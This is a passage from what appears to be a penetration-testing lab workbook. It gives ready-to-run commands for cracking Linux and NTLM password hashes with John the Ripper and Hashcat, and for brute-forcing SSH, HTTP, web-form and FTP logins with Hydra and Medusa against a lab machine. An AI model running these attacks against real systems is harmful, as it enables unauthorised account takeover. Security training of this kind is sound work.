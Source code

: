 **Tasks**:
1. Use John the Ripper to crack Linux password hashes
   ```bash
   # Command to use
   john --wordlist=/usr/share/wordlists/rockyou.txt linux_hashes.txt
   ```

2. Use Hashcat to crack Windows NTLM hashes
   ```bash
   # Command to use
   hashcat -m 1000 -a 0 windows_hashes.txt /usr/share/wordlists/rockyou.txt
   ```

3. Use John the Ripper with rules to crack more complex passwords
   ```bash
   # Command to use
   john --wordlist=/usr/share/wordlists/rockyou.txt --rules=Jumbo complex_hashes.txt
   ```

4. Use Hashcat with a mask attack to crack passwords with a known pattern
   ```bash
   # Command to use
   hashcat -m 0 -a 3 pattern_hashes.txt ?u?l?l?l?l?l?d?d
   ```

5. Document the cracking process and success rate

### Exercise 14: Online Password Attacks

**Objective**: Practice performing online password attacks against various services.

**Setup**:
1. Use the provided vulnerable machines in the Docker environment

**Tasks**:
1. Use Hydra to brute force SSH credentials
   ```bash
   # Command to use
   hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.100.50 ssh
   ```

2. Use Hydra to brute force HTTP Basic Authentication
   ```bash
   # Command to use
   hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.100.50 http-get /admin/
   ```

3. Use Hydra to brute force a web form
   ```bash
   # Command to use
   hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.100.50 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
   ```

4. Use Medusa to brute force FTP credentials
   ```bash
   # Command to use
   medusa -h 192.168.100.50 -u admin -P /usr/share/wordlists/rockyou.txt -M ftp
   ```
